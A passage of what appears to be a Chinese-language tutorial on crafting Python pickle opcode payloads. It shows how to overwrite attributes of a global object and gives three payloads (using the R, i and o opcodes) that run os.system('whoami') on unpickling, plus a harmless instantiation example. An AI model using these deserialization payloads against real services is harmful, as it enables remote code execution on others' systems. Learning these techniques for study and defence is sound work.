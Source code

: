  首先，通过 `c` 获取全局变量 `secret` ，然后建立一个字典，并使用 `b` 对secret进行属性设置，使用到的payload： 

```python
opcode='''c__main__
secret
(S'name'
S'1'
db.'''
```

#### 函数执行

 与函数执行相关的opcode有三个： `R` 、 `i` 、 `o` ，所以我们可以从三个方向进行构造： 

1. `R` ：

```
b'''cos
system
(S'whoami'
tR.'''
```

1. `i` ：

```
b'''(S'whoami'
ios
system
.'''
```

1. `o` ：

```
b'''(cos
system
S'whoami'
o.'''
```

#### 实例化对象

 实例化对象是一种特殊的函数执行，这里简单的使用 `R` 构造一下，其他方式类似： 

```python
class Student:
    def __init__(self, name, age):
        self.name = name
        self.age = age

data=b'''c__main__
Student
(S'XiaoMing'
S"20"
tR.'''

a=pickle.loads(data)
print(a.name,a.age)
```
